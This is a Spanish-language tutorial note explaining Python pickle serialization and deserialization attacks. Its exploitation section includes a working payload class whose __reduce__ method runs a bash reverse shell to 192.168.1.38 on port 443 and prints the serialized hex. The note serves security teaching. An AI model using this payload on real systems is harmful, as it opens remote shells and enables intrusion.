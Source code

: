 -----
- Tags: #ataques #basico #teoria #practica 
----

# ¿ Que es **Pickling** ? 

### **Pickling** es el proceso mediante el cual una jerarquía de objetos de Python se convierte en una secuencia de bytes.

----

# ¿ Que es un **ataque de deserialización Pickle** ? 

### Un **ataque de deserialización Pickle (DES-Pickle)** es un tipo de vulnerabilidad que puede ocurrir en aplicaciones Python que usan la biblioteca Pickle para serializar y deserializar objetos. 

### La vulnerabilidad se produce cuando un atacante es capaz de controlar la entrada Pickle que se pasa a una función de deserialización en la aplicación. Si el código de la aplicación no valida adecuadamente la entrada Pickle, puede permitir que un atacante inyecte código maliciosos en el objeto deserializado. 

### Una vez que el objeto ha sido deserializado, el código malicioso puede ser ejecutado en el contexto de la aplicación, lo que puede permitir al atacante tomar el control del sistema, acceder a datos sensibles, o incluso ejecutar código remoto.

### Los atacantes  puede aprovecharse de las vulnerabilidades de DES-Pickle para realizar ataques de denegación de servicio (DoS), inyectar código malicioso, o incluso tomar el control completo del sistema. 

--- 

# Explotación 

### Supongamos que tenemos una app la cual recibe una cadena hexadecimal en un objeto serializado con Pickle, la convierte a texto legible y la guarda en un archivo sin ningún tipo de validación. 

### En el proceso de deserialización, en Pickle, hay una función llamada **__reduce__** la cual podemos controlar para que a la hora de deserializar una data, podemos ingresar a nivel de sistema como queremos que se deserialize o como queremos que se ejecute. Por lo que a la hora de realizar un ataque de deserialización en Pickle mayormente crearíamos un archivo tal que así: 

```python
import pickle, os, binascii 
# binascii para poder convertir la cadena a hexadecimal.

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('bash -c "bash -i >& /dev/tcp/192.168.1.38/443 0>&1"',))

if __name__ == "__main__": 
    print(binascii.hexlify(pickle.dumps(Exploit())))
```

### Creamos una clase con la función **__reduce__** la cual retorna lo que nos interesa que devuelva, en este caso la ejecución de un comando a nivel de sistema. Para posteriormente pesarle a la función **pickle.dumps()** para mostrar por consola la data serializada (El comando a ejecutar a nivel de sistema). 

